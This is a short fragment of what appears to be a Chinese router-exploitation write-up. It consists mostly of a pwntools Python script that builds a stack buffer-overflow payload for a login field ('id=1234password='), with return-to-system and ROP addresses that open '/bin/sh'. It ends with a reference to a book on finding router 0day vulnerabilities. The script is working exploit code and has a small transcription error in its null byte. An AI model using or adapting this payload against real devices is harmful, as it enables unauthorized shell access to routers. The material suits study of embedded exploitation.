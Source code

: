 	from pwn import *

	system_addr=0x76738000+0x53200

	gadget=0x76738000+0x000159CC

	f=open("payload","wb")

	data='id=1234password='

	data+='A'*(1056-0x24)+p32(system_addr)+'A'*0x1D+p32(gadget)+'A'*0x10+'/bin/shx00'

	f.write(data)

	f.close()

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g5epff3rmxj212e0jhtfi.jpg>)

## **参考链接**

《揭秘家用路由器0day漏洞挖掘技术》
